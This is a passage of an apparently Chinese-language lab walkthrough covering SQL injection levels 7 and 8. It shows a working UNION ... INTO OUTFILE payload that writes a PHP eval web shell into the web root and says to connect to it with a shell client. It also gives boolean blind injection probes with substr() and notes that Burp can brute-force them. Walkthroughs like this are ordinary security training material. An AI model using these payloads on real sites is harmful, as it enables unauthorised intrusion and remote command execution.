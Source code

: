 很显然这道题和第五题一样,不再赘述！！


## 7. 文件输出

一开始有些无脑，直接试了？ID=1

![image](https://user-images.githubusercontent.com/76896357/114842556-88177680-9e0b-11eb-9a43-396a2761a6bd.png)

很显然这里是要导出文件

测试他的闭合方式

![image](https://user-images.githubusercontent.com/76896357/114844810-bdbd5f00-9e0d-11eb-8a0b-57aaa8b71ceb.png)

再加上一个‘)就可以了

![image](https://user-images.githubusercontent.com/76896357/114844888-d2015c00-9e0d-11eb-91c0-89d14b82a8b6.png)

所以，闭合方式是‘））

* 直接写入
```
?id=-1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "D:\\phpstudy_pro\\WWW\\q.php" --+
```
注意是否有写入文件的权限

之后用菜刀等链接

## 8.布尔单引号盲注

* 经判断，没有回显

* 查看闭合方式
```
?id=1' and 1=1 --+
```
![image](https://user-images.githubusercontent.com/76896357/114853505-6ff92480-9e16-11eb-9d8a-5a3ad5e2362f.png)

确定是‘的闭合方式

* 判断是不是报错注入
```
?id=1' union select 1,2,3,4 --+
```

* 很显然不是，而是bool盲注，只显示两种情况

因此，就用猜测的方法

```
?id=1' and substr(database(),1,1)='s' --+
```
![image](https://user-images.githubusercontent.com/76896357/114865853-704cec00-9e25-11eb-91d1-a1c15fed4458.png)

这里可以借助bp，进行爆破
